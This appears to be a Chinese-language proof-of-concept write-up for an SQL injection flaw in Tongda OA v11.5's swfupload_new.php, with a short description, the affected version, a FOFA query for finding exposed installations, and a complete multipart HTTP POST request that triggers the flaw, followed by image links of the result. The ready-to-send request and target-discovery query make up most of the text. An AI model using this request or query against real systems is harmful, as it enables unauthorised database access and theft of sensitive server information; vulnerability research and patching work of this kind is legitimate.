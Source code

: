 # 通达OA v11.5 swfupload_new.php SQL注入漏洞

## 漏洞描述

通达OA v11.5 swfupload_new.php 文件存在SQL注入漏洞，攻击者通过漏洞可获取服务器敏感信息

## 漏洞影响

```
通达OA v11.5
```

## FOFA

```
app="TDXK-通达OA"
```

## 漏洞复现

登陆页面

![image-20220520154058320](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205201540406.png)

发送请求包触发漏洞

```
POST /general/file_folder/swfupload_new.php HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Content-Length: 355
Content-Type: multipart/form-data; boundary=----------GFioQpMK0vv2
Accept-Encoding: gzip

------------GFioQpMK0vv2
Content-Disposition: form-data; name="ATTACHMENT_ID"

1
------------GFioQpMK0vv2
Content-Disposition: form-data; name="ATTACHMENT_NAME"

1
------------GFioQpMK0vv2
Content-Disposition: form-data; name="FILE_SORT"

2
------------GFioQpMK0vv2
Content-Disposition: form-data; name="SORT_ID"

------------GFioQpMK0vv2--
```

![image-20220520154111741](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205201541795.png)